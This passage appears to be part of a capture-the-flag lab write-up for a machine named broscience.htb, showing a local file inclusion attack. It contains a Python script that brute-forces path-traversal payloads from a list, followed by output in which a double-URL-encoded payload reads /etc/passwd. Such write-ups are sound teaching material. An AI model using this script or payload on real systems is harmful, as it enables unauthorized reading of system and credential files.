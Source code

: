 #### Local File Inclusion

To automate finding a right payload, we used a the [dotdotpwn payload list](https://raw.githubusercontent.com/foospidy/payloads/master/other/traversal/dotdotpwn.txt).

```python
import requests
import sys

# disable certificate warning
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

url = sys.argv[1]

with open('dotdotpwn.txt') as file:
    for line in file:
        payload = line.strip()
        # setting verify to False to ignore verifying the SSL certificate
        response = requests.get(url + payload, verify=False)
        print(f"{payload} - {response.status_code}")
        if not ("Error:" in response.text or response.text ==""):
            print(response.text)
            break

```

After running this script, we get a working payload that outputs the `/etc/passwd` file:
```bash
$ python3 dotdot.py "https://broscience.htb/includes/img.php?path="
../etc/passwd - 200
<b>Error:</b> Attack detected.
../etc/issue - 200
<b>Error:</b> Attack detected.
...
...
...
..%252f..%252f..%252f..%252fetc%252fpasswd - 200
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
...
...
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

_We can see there is a user named `bill` and it looks like `postgres` is installed._

The payload that succeeded was `..%252f..%252f..%252f..%252fetc%252fpasswd` and is double URL encoded `../../../../etc/passwd`.
